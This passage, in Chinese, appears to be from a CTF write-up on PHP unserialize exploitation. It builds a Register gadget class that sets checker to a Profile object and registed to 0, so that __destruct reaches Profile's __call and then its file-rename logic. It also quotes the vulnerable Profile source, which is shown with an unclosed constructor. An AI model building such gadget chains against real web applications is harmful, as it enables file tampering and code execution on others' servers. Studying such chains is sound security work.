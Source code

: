 现在的逻辑和功能是。可以进入destruct魔术方法。

上面代码对应流程是

```
(1)$checker= new Index控制器->(2)进入destruct->(3)执行Index控制器中的index方法。
```

那么如果流程这么走那就没戏了，哈哈哈。我们得让它进入Profile控制器类，执行我们的改文件名字功能。所以我们不能让它进入Index控制器。

修改下

**构造待序列化的入口方法-2**

```php
<?php
class Register {
    public $checker; //在类中不能直接赋值 $checker = new 类，但我们可以实例化赋值，也可以用__construct帮我们赋值
    public $registed = 0;//绕过destructed的if
    public function __construct(){
        $this->checker=new Profile();  //搞定，这下可以进入Profile控制器了
    }
}
```

### 漏洞利用类序列化编写

进入Profile。而根据入口类源码，会调用Profile类中的index方法，而Profile没有index方法。所以会进入__call方法。



**Profile部分源码** 

```php
class Profile extends Controller
{
    public $checker;
    public $filename_tmp;
    public $filename;
    public $upload_menu;
    public $ext;
    public $img;
    public $except;

    public function __construct()
    {
        $this->checker=new Index();
        $this->upload_menu=md5($_SERVER['REMOTE_ADDR']);
        @chdir("../public/upload");
        if(!is_dir($this->upload_menu)){
            @mkdir($this->upload_menu); //创建目录
        }
        @chdir($this->upload_menu); //改变当前目录，含义：进入刚刚创建的目录
        
    public function __get($name)
    {
        return $this->except[$name];
    }

    public function __call($name, $arguments)
    {
        if($this->{$name}){
            $this->{$this->{$name}}($arguments);
        }
    }
}
    
```

